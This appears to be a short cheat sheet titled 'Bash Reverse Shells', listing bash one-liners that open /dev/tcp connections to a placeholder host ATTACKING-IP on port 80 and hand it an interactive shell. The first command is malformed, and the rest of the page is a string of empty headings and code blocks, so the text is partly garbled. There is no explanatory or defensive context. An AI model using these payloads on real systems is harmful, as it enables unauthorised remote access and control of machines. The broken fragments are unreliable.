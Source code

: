 # Bash Reverse Shells

```
exec /bin/bash 0&0 2>&0

```
```

0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196

```
```
exec 5<>/dev/tcp/ATTACKING-IP/80
cat <&5 | while read line; do $line 2>&5 >&5; done  

# or:

while read line 0<&5; do $line 2>&5 >&5; done
```

#

```

```

#

```

```

#

```

```

#

```

```

#

```

```

#

```

```

#

```

```

#

```

```
